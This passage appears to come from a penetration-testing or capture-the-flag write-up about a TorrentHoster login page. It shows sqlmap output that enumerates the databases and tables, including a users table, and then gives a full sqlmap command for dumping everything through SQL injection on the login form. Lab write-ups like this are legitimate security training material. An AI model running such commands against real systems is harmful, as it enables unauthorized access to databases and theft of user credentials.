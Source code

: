 Importantly I get the dB details:
 
```
Database: torrenthoster
[8 tables]
+---------------------------------------+
| ban                                   |
| categories                            |
| comments                              |
| log                                   |
| namemap                               |
| news                                  |
| subcategories                         |
| users                                 |
+---------------------------------------+
 
Database: information_schema
[28 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
```
 
Lets get all the goodies
 
```
sqlmap -u http://$TARGET/torrent/login.php --data="password=pwnd&username=pwnd" --method POST --dbms MySQL --thread=5 -a
```
 